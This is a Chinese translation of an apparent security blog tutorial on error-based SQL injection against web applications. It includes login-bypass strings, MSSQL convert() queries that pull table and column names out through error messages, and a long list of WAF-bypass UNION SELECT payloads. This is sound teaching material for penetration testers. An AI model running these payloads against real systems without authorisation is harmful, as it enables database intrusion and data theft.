





# 利用基于错误的 SQL 注入和绕过限制

> 原文：<https://infosecwriteups.com/exploiting-error-based-sql-injections-bypassing-restrictions-ed099623cd94?source=collection_archive---------0----------------------->

在本文中，我们将学习当我们陷入基于错误的 SQL 注入时如何升级攻击。在开始之前，让我们快速掌握基于错误的 SQLi 的基础知识。

## 什么是基于错误的 SQL 注入攻击？

基于错误的 SQL 注入攻击是一种**带内注入**技术，我们**利用数据库的错误输出**来操纵数据库内部的数据。

> 在**带内注入**中，攻击者使用相同的通信信道进行攻击和数据检索。您可以利用漏洞强制提取数据，在该漏洞中，代码将输出 SQL 错误，而不是来自服务器的所需数据。数据库产生的错误足以让攻击者完全了解数据库结构。

基于错误的 SQL 注入技术会强制数据库生成错误，从而为攻击者或测试人员提供改进注入的信息— OWASP。

> 关键:“当生活给你一个柠檬，就做一个柠檬水。”

> 简而言之:使用抛出的错误，精确地构造下一个有效载荷。

# 如果应用程序易受 SQLi 攻击，应该在哪里进行检查？OWASP

该测试的第一步是**了解应用程序何时与 DB 服务器**交互以访问一些数据。应用程序需要与数据库通信的典型情况包括:

*   **身份验证表单:**当使用 web 表单执行身份验证时，很可能会根据包含所有用户名和密码(或者更好的是密码散列)的数据库来检查用户凭证。
*   **搜索引擎:**用户提交的字符串可以用在 SQL 查询中，从数据库中提取所有相关记录。
*   **电子商务网站:**产品及其特征(价格、描述、可用性等)很可能存储在数据库中。

列出所有输入字段的列表，这些字段的值可以用于创建 SQL 查询，包括 POST 请求的隐藏字段，然后分别测试它们，试图干扰查询并生成错误。还要考虑 HTTP 头和 Cookies。

第一个测试通常包括向被测试的字段或参数添加单引号`'`(字符串结束符)或分号`;`(用于结束 SQL 语句)，如果不过滤，可能会产生错误。

在 **Microsoft SQL Server** 上，易受攻击字段的输出可能如下所示:

`Microsoft OLE DB Provider for ODBC Drivers error ‘80040e14’
[Microsoft][ODBC SQL Server Driver][SQL Server]Unclosed quotation mark before the
character string ‘’.
/target/target.asp, line 113`

此外，可以使用注释分隔符(`--`或`/* */`等)和其他 SQL 关键字，如`AND`和`OR`来尝试修改查询。一个非常简单但有时仍然有效的技术是简单地**在需要数字的地方插入一个字符串**，因为可能会产生如下错误:

`Microsoft OLE DB Provider for ODBC Drivers error ‘80040e07’
[Microsoft][ODBC SQL Server Driver][SQL Server]Syntax error converting the
varchar value ‘test’ to a column of data type int.
/target/target.asp, line 113`

监控来自网络服务器的所有响应，并查看 HTML/JavaScript 源代码。有时错误会出现在它们内部，但由于某种原因(例如 JavaScript 错误、HTML 注释等)不会呈现给用户。

一个**完整的错误消息**，就像例子中的那些，为测试者提供了**丰富的信息**，以便发起一次成功的注入攻击。然而，应用程序通常不会提供这么多细节:可能会发出一个简单的**‘500 服务器错误’**或一个自定义错误页面，这意味着我们需要使用盲注入技术。

在任何情况下，**分别测试每个字段都非常重要** : **只有一个变量必须变化，而所有其他变量保持不变，**以便准确了解哪些参数易受影响，哪些不受影响。

# 如何验证和利用基于错误的 SQLi？

**步骤:**

1.  如上所述，第一步是脱离 SQL 查询语句。将单引号`(‘)`、双引号`(“)`、反勾`(`)`或分号`(;)`放在已识别的输入字段中，以干扰现有的查询。
2.  注意应用程序中的任何错误消息或不当行为。

## 找什么？

> `Valid Query + No error messages`真=
> 假= `Invalid Query + Error messages`
> 
> 1.如果输入字段是:**字符串**
> 其中 Query = `SELECT * FROM Table WHERE id = ‘1’;`
> 如果，
> `‘` 给出假，则 `‘ ‘` 必须给出真
> `“` 给出假，则 `“ “`必须给出真
> `\` 给出假，则`\\`必须给出真
> 
> 2.如果输入字段为:**数值**
> 其中查询= `SELECT * FROM Table WHERE id = 1;`
> 
> `AND 1`真
> `AND 0`假
> 真
> `AND false`假
> `1-false`易受攻击返回 1
> `1-true`易受攻击返回 0
> `1*50` 易受攻击返回 50
> `1*50`不易受攻击返回 1
> 
> 3.如果输入字段为:**登录**
> 其中查询= `SELECT * FROM Table WHERE username = ‘’;`
> 
> `‘ OR ‘1
> ‘ OR 1 — -
> “ OR “” = “
> “ OR 1 = 1 — -
> ‘=’
> ‘LIKE’
> ‘=0 — +`

3.现在我们已经得到了易受攻击的输入字段。检查错误消息。这里有一张**完整错误信息**的快照。

注意站点 URL 中多余的`’`，它破坏了查询。

完整的错误消息

**注**:基于错误的 SQLi 仅在向用户显示错误消息时起作用。

a)使用查询:`‘ and 1=convert(int,(select top 1 table_name from information_schema.tables))--`

上面的查询将从数据库中检索 top **table_name** 。

请注意值“Download_Dcoument ”,这是我们获取的 table_name。

图:a

b)现在使用查询:`‘ and 1=convert(int,(select top 1 table_name from information_schema.tables where table_name not in (‘Download_Dcoument’)))--`

上述查询将从数据库中检索下一个 top **table_name** 。

请注意值“login_audit ”,这是我们获取的表名。

图:b

c)现在使用查询:`‘ and 1=convert(int,(select top 1 table_name from information_schema.tables where table_name not in (‘Download_Dcoument’,'login_audit')))--`

上面的查询将从数据库中检索“login_audit”之后的下一个 top **table_name** 。

请注意值“MDCal_Event ”,这是我们获取的 table_name。

图:c

类似地，我们也可以获得其他表名。

4.现在我们已经知道了**表名，**我们可以进一步升级攻击以获得**列名**

a)使用查询:`‘ and 1=convert(int,(select top 1 column_name from information_schema.columns where table_name=’npslogin’))--`

上述查询将从表“`npslogin`”中检索顶部的**列名**。

请注意,' log_id '是列名。

图:4a

同样，我们也可以得到另一个**列名**。

5.获得所需的**列名后，**您可以直接从数据库的特定表中获取数据。

更多步骤请参考:**识别&利用 SQL 注入:手动&自动**。

 [## 识别和利用 SQL 注入:手动和自动

### 在本文中，我们将从识别 SQL 注入漏洞开始&如何利用这些漏洞…

medium.com](https://medium.com/bugbountywriteup/identifying-exploiting-sql-injection-manual-automated-79c932f0c9b5) 

# 绕过限制:

应用程序可能会根据清单或白名单执行一些过滤。您总是可以尝试用下面提到的字符串替换查询字符串，以绕过任何此类限制。

## **1。晶圆旁路串:**

`/*!%55NiOn*/ /*!%53eLEct*/ %55nion(%53elect 1,2,3)-- - +union+distinct+select+ +union+distinctROW+select+ /**//*!12345UNION SELECT*//**/ concat(0x223e,@@version) concat(0x273e27,version(),0x3c212d2d) concat(0x223e3c62723e,version(),0x3c696d67207372633d22) concat(0x223e,@@version,0x3c696d67207372633d22) concat(0x223e,0x3c62723e3c62723e3c62723e,@@version,0x3c696d67207372633d22,0x3c62​723e) concat(0x223e3c62723e,@@version,0x3a,”BlackRose”,0x3c696d67207372633d22) concat(‘’,@@version,’’) /**//*!50000UNION SELECT*//**/ /**/UNION/**//*!50000SELECT*//**/ /*!50000UniON SeLeCt*/ union /*!50000%53elect*/ +#uNiOn+#sEleCt +#1q%0AuNiOn all#qa%0A#%0AsEleCt /*!%55NiOn*/ /*!%53eLEct*/ /*!u%6eion*/ /*!se%6cect*/ +un/**/ion+se/**/lect uni%0bon+se%0blect %2f**%2funion%2f**%2fselect union%23foo*%2F*bar%0D%0Aselect%23foo%0D%0A REVERSE(noinu)+REVERSE(tceles) /*--*/union/*--*/select/*--*/ union (/*!/**/ SeleCT */ 1,2,3) /*!union*/+/*!select*/ union+/*!select*/ /**/union/**/select/**/ /**/uNIon/**/sEleCt/**/ /**//*!union*//**//*!select*//**/ /*!uNIOn*/ /*!SelECt*/ +union+distinct+select+ +union+distinctROW+select+ +UnIOn%0d%0aSeleCt%0d%0a UNION/*&test=1*/SELECT/*&pwn=2*/ un?+un/**/ion+se/**/lect+ +UNunionION+SEselectLECT+ +uni%0bon+se%0blect+ %252f%252a*/union%252f%252a /select%252f%252a*/ /%2A%2A/union/%2A%2A/select/%2A%2A/ %2f**%2funion%2f**%2fselect%2f**%2f union%23foo*%2F*bar%0D%0Aselect%23foo%0D%0A /*!UnIoN*/SeLecT+`

**2。使用 Url 编码方法通过联合选择:** `%55nion(%53elect) union%20distinct%20select union%20%64istinctRO%57%20select union%2053elect %23?%0auion%20?%23?%0aselect %23?zen?%0Aunion all%23zen%0A%23Zen%0Aselect %55nion %53eLEct u%6eion se%6cect unio%6e %73elect unio%6e%20%64istinc%74%20%73elect uni%6fn distinct%52OW s%65lect %75%6e%6f%69%6e %61%6c%6c %73%65%6c%65%63%7`

**3。非法混合排序规则绕过方法:** `unhex(hex(Concat(Column_Name,0x3e,Table_schema,0x3e,table_Name)))`

`/*!from*/information_schema.columns/*!where*/column_name%20/*!like*/char(37,%20112,%2097,%20115,%20115,%2037)`

`union select 1,2,unhex(hex(Concat(Column_Name,0x3e,Table_schema,0x3e,table_Name))),4,5 /*!from*/information_schema.columns/*!where*/column_name%20/*!like*/char(37,%20112,%2097,%20115,%20115,%2037)?`

狩猎愉快。再见。

## **参考文献:**

 [## WSTG -最新

### SQL 注入测试检查是否有可能将数据注入到应用程序中，以便它执行一个…

owasp.org](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/07-Input_Validation_Testing/05-Testing_for_SQL_Injection)